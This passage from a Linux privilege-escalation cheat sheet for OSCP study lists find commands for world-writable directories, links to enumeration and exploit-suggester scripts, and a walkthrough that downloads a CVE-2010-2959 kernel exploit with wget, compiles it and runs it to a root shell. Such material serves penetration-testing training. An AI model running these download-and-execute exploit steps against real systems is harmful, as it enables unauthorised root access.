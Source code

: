     What folders are world writeable?:
    
         find / -writable -type d 2>/dev/null      # world-writeable folders
         find / -perm -222 -type d 2>/dev/null     # world-writeable folders
         find / -perm -o w -type d 2>/dev/null     # world-writeable folders
         find / -perm -o x -type d 2>/dev/null     # world-executable folders
         find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders
    
-   There are a few scripts that can automate the linux enumeration process:

      - Google is my favorite Linux Kernel exploitation search tool.  Many of these automated checkers are missing important kernel exploits which can create a very frustrating blindspot during your OSCP course.

      - LinuxPrivChecker.py - My favorite automated linux priv enumeration checker - 
      
         [https://www.securitysift.com/download/linuxprivchecker.py](https://www.securitysift.com/download/linuxprivchecker.py)

      - LinEnum - (Recently Updated)
      
      [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
      
      - linux-exploit-suggester (Recently Updated)
      
      [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
      
      -   Highon.coffee Linux Local Enum - Great enumeration script!
      
          `wget https://highon.coffee/downloads/linux-local-enum.sh`

      -   Linux Privilege Exploit Suggester  (Old has not been updated in years)
      
    [https://github.com/PenturaLabs/Linux\_Exploit\_Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester)

      -   Linux post exploitation enumeration and exploit checking tools  
      
    [https://github.com/reider-roque/linpostexp](https://github.com/reider-roque/linpostexp)
    

Handy Kernel Exploits

-   CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)

    [https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)
    
         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)

-   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)
